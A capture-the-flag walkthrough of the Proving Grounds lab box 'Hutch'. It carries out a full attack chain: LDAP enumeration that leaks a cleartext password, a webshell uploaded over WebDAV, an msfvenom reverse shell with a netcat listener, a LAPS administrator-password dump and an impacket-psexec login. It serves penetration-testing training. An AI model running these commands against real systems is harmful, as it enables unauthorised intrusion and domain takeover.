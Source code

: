 ```yaml
---
layout: post
title: Hutch - Proving Grounds
date: 31-01-2025
categories: [Writeups]
tag: [Proving Grounds, Active Directory, Intermediate]
---
```


# Hutch - Walkthrough

Hutch is an intermediate box on OFFSEC’s Proving Grounds, the community rates Hutch as a hard difficulty box. 

## Recon
Start scanning all ports:
```
nmap -p- 192.168.234.122 -T 5 -v
```
![Scan de todas as portas](/assets/images/Hutch/1.png)

Scanning only the open doors we found:

```
nmap -sC -sV -Pn 192.168.234.122 -p 53,80,88,135,139,389,445,464,593,636,3268,3269,9389,49666,49667,49673,49674,49676,49692,49768  -v 
```

![Scan portas abertas](/assets/images/Hutch/2.png)

## Enumeration
I accessed port 80 and was unsuccessful, so I used ldapsearch to try to get information. <br>
I found usernames and among the usernames obtained, one of them had the login and password in clear text:
*fmcsorley:CrabSharkJellyfish192*

```
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.234.122" "(objectclass=*)"

# Freddy McSorley, Users, hutch.offsec
dn: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Freddy McSorley
description: Password set to CrabSharkJellyfish192 at users request. Please c
 hange on next login.
distinguishedName: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
instanceType: 4
whenCreated: 20201104053505.0Z
whenChanged: 20210216133934.0Z
uSNCreated: 12831
uSNChanged: 49179
name: Freddy McSorley
objectGUID:: TxilGIhMVkuei6KplCd8ug==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132489437036308102
lastLogoff: 0
lastLogon: 132579563744834908
pwdLastSet: 132489417058152751
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAARZojhOF3UxtpokGnWwQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: fmcsorley
sAMAccountType: 805306368
userPrincipalName: fmcsorley@hutch.offsec
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=hutch,DC=offsec
dSCorePropagationData: 20201104053513.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 132579563744834908
msDS-SupportedEncryptionTypes: 0
```

The nmap scan showed that there was a webdav running on port 80, so I used cadaver to test the credentials obtained to log in to the webdav

```
cadaver http://192.168.198.122
```
![cadaver](/assets/images/Hutch/3.png)

I accessed the web page which showed that IIS uses asp.net.
![iis](/assets/images/Hutch/4.png)

## Exploitation
Kali has an aspx webshell called cmdasp.aspx in the directory */usr/share/webshells/aspx/* <br>
Since I was able to log in using the credentials in the cadaver, I used curl to upload the webshell to the server.
```
curl -v http://192.168.198.122/ -u fmcsorley:CrabSharkJellyfish192 --upload-file cmdasp.aspx
```

![uploadwebshell](/assets/images/Hutch/5.png)

After uploading the webshell, I created a reverse shell with msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.162 LPORT=4444 -f exe > rev.exe                                                      
```
![reverse](/assets/images/Hutch/6.png)

I uploaded the reverse shell using curl
```
curl -v http://192.168.198.122/ -u fmcsorley:CrabSharkJellyfish192 --upload-file rev.exe    
```
![curlshell](/assets/images/Hutch/7.png)

In the webshell, I navigated to the default IIS directory c:\inetpub\wwwroot and verified that the reverse shell file was there

![webshell](/assets/images/Hutch/8.png)

I started a listener on my host to get the connection:
```
nc -lnvp 4444
```
And I ran the reverse shell using the command:
```
start c:\inetpub\wwwroot\rev.exe
```

![webshell1](/assets/images/Hutch/9.png)

I got the reverse shell, navigated to the directory *C:\Users\fmcsorley\Desktop* where I got the flag local.txt

![local](/assets/images/Hutch/10.png)


## Privilege Escalation

Exploring the host, I noticed that it had the LAPS service installed:

![laps](/assets/images/Hutch/11.png)

I looked up how to get the passwords generated by laps through a ldap query, so I ran the code below to get the administrator's password:

```
ldapsearch -x -H "ldap://192.168.198.122" -D "hutch\fmcsorley" -w "CrabSharkJellyfish192" -b "dc=hutch,dc=offsec" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
![ldappass](/assets/images/Hutch/12.png)

I got the password *!IWACY$+QCn76+* which I used to log in as administrator using psexec:

```
impacket-psexec hutch.offsec/administrator:'!IWACY$+QCn76+'@192.168.198.122 
```

I browsed to the administrator's desktop and got the proof.txt flag:

![proof](/assets/images/Hutch/13.png)
